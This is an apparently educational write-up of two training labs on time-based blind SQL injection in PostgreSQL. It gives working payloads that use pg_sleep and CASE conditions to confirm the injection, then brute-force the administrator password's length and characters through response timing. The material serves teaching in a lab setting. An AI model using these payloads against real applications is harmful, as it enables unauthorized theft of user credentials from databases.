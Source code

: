 In the first lab of this type, they ask to add a 10 seconds sleep using an SQL injection.
We know it's PostgreSQL, so we have to use the concatenation operator (`||`) and append a `pg_sleep(10)` **and after that comment the rest of the query.**

![](imgs/blind_sqli_time_based.png)


In the second lab, the injection is more complicated, and it is because we have to get the password of the administrator user.

First, we confirm we have a SQL injection time-based with the following payload:
`'%3bSELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`
![](imgs/blind_sqli_time_based-1.png)

Then we just have to change the condition from inside with the SUBSTR operator from POSTGRE to test each of the characters and the positions, as done in previous labs. We will measure the response time taken by the server for each of the responses.

First, we will have to check the number of characters of the password:
`%3bSELECT CASE WHEN (LENGTH(password) > §1§) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--`
Note: Remember to add **the ; operator URL encoded and to comment the rest of the code in these payloads.**
Enabling the columns that allows us to see the response time, we can see that after 20, the time drops to 6000, so the password is 20 characters long:
![](imgs/blind_sqli_time_based-3.png)


![](imgs/blind_sqli_time_based-4.png)
`'%3bSELECT CASE WHEN (SUBSTR(password,§1§,1)='§a§') THEN pg_sleep(2) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--`
We can alternatively not use the WHERE and add it as another condition in the WHEN operator:
`'%3bSELECT CASE WHEN (username='administrator' AND SUBSTR(password,§1§,1)='§a§') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--`
![](imgs/blind_sqli_time_based-5.png)

We can now craft the pasword:
![](imgs/blind_sqli_time_based-6.png)